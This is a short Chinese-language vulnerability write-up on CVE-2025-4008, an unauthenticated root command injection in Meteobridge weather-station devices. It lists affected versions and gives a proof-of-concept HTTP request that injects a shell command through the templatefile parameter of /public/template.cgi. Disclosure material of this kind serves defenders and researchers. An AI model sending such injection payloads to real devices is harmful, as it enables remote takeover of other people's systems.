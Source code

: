 **漏洞介绍**



![图片](Meteobridge%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9ECVE-2025-4008.assets/640.png)

Meteobridge是Meteobridge公司的一款小型设备，可将个人气象站连接到公共气象网络。

Meteobridge存在安全漏洞，该漏洞源于Web接口端点存在命令注入漏洞，可能导致未经认证的远程攻击者以root权限执行任意命令。



![Image](Meteobridge%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9ECVE-2025-4008.assets/640-1749172531207-1.png)



**0x02影响版本**



Meteobridge<= 6.1

![图片](Meteobridge%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9ECVE-2025-4008.assets/640-1749172531207-2.png)

![Image](Meteobridge%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9ECVE-2025-4008.assets/640-1749172531207-1.png)



**0x03漏洞复现**



1.访问漏洞环境

![图片](Meteobridge%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9ECVE-2025-4008.assets/640-1749172531207-3.png)

2.对漏洞进行复现

 **POC** 

漏洞复现

```
GET /public/template.cgi?templatefile=$(id) HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 


```

   执行id命令，通过相应判断漏洞存在

![图片](Meteobridge%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9ECVE-2025-4008.assets/640-1749172531207-4.png)